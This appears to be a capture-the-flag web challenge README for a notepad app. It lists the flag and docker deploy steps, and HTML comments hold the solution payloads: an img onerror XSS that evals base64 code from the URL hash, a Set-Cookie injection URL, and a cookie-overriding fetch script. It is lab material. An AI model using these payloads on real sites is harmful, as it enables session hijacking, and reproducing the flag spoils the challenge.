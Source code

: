 Name  : Magic 2:The Turn

Desc  : This is going to be Legend ... wait for it ...

Flag  : inctf{dary_l3g3nd4ry_23839732445567356721110}

Deploy: 
- docker build -t notepad1 . 
- docker run notepad1


<!-- Payload my end

<img src=x onerror=eval(atob(location.hash.substr(1)))></img>
 -->

<!-- Admin Side : Window.Open to set cookie

http://localhost:3000/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get
-->

<!-- Admin Side : Window.Open to xss 

document.cookie="id=47ed733b8d10be225eceba344d533586;expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;";fetch('/get').then(response=>response.text()).then(data=>console.log(data))


http://localhost:3000/#document.cookie=%22id=68b329da9893e34099c7d8ad5cb9c940;%20expires=Thu,%2001%20Jan%201970%2000:00:00%20UTC;path=/get;%22;document.cookie=x;fetch('/get').then(response=%3Eresponse.text()).then(data=%3Econsole.log(data));
-->

